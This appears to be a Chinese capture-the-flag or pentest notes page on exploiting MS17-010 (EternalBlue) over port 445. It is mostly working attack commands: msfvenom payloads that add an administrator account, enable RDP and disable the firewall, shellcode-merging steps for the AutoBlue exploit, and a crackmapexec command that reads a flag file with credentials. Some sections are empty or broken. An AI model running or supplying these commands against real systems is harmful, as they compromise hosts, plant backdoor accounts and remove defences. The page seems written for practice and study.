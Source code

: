 # 445端口争夺战

## 非常规的MS17-010打法

### 使用漏洞直接开启RDP，并添加用户

使用工具 [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

#### 工具介绍

- eternalblue_exploit7/8/10.py  使用永恒之蓝漏洞注入一个shellcode，容易蓝屏

```bash
python3 eternalblue_exploit7.py adduser3389.bin x.x.x.x
```

方法如下

1. 生成shellcode

   ```bash
   # 1 生成64位的
   $ msfvenom -p windows/x64/exec EXITFUNC=thread CMD='cmd.exe /c net user synb123 "qqNBNo.1" /ADD
   && net localgroup administrators synb123 /ADD && REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f && netsh advfirewall set allprofiles state off' -f raw > msfexecx64.bin
   
   # 2 生成32位的
   $ msfvenom -p windows/exec EXITFUNC=thread CMD='cmd.exe /c net user synb123 "qqNBNo.1" /ADD     && net localgroup administrators synb123 /ADD && REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f && netsh advfirewall set allprofiles state off' -f raw > msfexecx86.bin
   
   # 3 合并shellcode
   $ sc_x64_kernel.bin sc_x64_msf.bin > sc_x64.bin
   $ cat sc_x86_kernel.bin sc_x86_msf.bin > sc_x86.bin
   $ python eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin
   ```

   

### 使用永恒之蓝直接开代理

```bash

```

### 使用smb直接读flag文件 不讲武德

```
crackmapexec smb $ip -u sysadmin -p UYFvniCJ -x 'type C:\Users\Administrator\Desktop\flag.txt'
```

## 工具介绍